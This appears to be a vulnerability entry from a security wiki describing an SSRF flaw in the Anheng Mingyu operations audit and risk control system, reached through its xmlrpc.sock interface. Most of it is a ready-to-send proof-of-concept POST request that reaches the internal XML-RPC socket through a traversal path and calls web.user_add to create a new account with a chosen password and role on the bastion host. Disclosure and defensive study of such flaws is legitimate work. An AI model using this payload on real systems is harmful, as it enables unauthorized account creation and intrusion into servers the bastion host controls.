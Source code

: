 # Anheng Mingyu Operation and Maintenance Audit and Risk Control System xmlrpc.sock Add vulnerabilities to any user

## Vulnerability Description

Anheng Mingyu Operation and Maintenance Audit and Risk Control System xmlrpc.sock interface has an SSRF vulnerability, through which any user control bastion machine can be added

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Anheng Mingyu Operation and Maintenance Audit and Risk Control System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1684157005274-29040e67-0fcc-4cf9-a841-dfecf15337f5.png)

Verify POC

```c
POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|https://test/wsrpc HTTP/1.1
Host: 
Cookie: LANG=zh; DBAPPUSM=ee4bbf6c85e541bb980ad4e0fbee2f57bb15bafe20a7028af9a0b8901cf80fd3
Content-Length: 1117
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0"?>  
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>10.0.0.1</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>name</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>pwd</name>
<value>
<string>1qaz@3edC12345</string>
</value>
</member>
<member>
<name>authmode</name>
<value>
<string>1</string>
</value>
</member>
<member>
<name>deptid</name>
<value>
<string></string>
</value>
</member>
<member>
<name>email</name>
<value>
<string></string>
</value>
</member>
<member>
<name>mobile</name>
<value>
<string></string>
</value>
</member>
<member>
<name>comment</name>
<value>
<string></string>
</value>
</member>
<member>
<name>roleid</name>
<value>
<string>102</string>
</value>
</member>
</struct></value>
</param>
</params>
</methodCall>
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691632648327-7506c46c-805d-47ae-a95a-a317645b5c6e.png)
